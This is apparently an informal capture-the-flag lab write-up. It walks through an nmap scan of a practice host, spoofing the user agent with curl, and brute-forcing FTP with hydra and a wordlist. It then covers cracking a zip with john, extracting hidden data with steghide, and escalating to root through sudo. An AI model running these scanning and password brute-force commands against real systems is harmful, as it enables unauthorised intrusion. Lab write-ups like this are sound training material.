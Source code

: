did the nmap scan 


	nmap -sC -sV 10.10.226.87       
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-07 10:55 EDT
	Nmap scan report for 10.10.226.87
	Host is up (0.22s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
	|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
	|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: Annoucement
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 37.67 seconds


go to the HTTP server there you will get a hint that change your user-agent 

so i tried to change my user agent using curl 


	curl -A "C"  http://10.10.226.87 -L
	
tried user agent A,B and C gave me a result 
	
	Attention chris, <br><br>

	Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

	From,<br>
	Agent R 

so we got a potential user as chris so we can try to bruteforce the ftp 

	 hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.226.87 ftp
	 
got the password
 
 	crystal
	
	
	
got 3 files binwalk the files and got a zip crack the zip using john and the password is 

	alien
	
and found some interesting details  like 

	Area51 
in base64 

on further searching found that the jpg file also has some 
use steghide to decrypt that info and use the above password 

so i got the credentials for ssh 

and 

sudo -l 
and google the output 

and vola you are root now
	
	

